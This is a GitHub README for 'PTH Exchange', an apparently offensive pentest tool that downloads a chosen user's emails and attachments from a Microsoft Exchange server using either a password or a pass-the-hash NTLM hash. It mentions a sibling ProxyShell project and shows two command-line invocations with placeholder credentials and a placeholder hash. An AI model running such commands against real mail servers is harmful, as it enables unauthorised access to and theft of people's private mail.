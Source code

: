 # PTH Exchange

## If you only have hash, you can still operate exchange

## This project module is the same as my other project [Exchange_SSRF](https://github.com/Jumbo-WJB/Exchange_SSRF),  This project uses the correct account password or NTLM HASH, [Exchange_SSRF](https://github.com/Jumbo-WJB/Exchange_SSRF) uses ProxyShell.

### Download user's emails (include attachment) 下载指定用户的邮件，包括附件

run 运行程序（password）：

```
python pthexchange.py  --target https://mail.exchange.com --username "yourusername" --password "yourpassword" --action Download
```
result 结果：

![image-20211021191358667](README.assets/image-20211021191358667.png)


run 运行程序（NTLM HASH）：

```
python pthexchange.py  --target https://mail.exchange.com --username "yourusername" --password "00000000000000000000000000000000:11111111111111111111111111111111" --action Download
```
result 结果：

![image-20211021191429211](README.assets/image-20211021191429211.png)

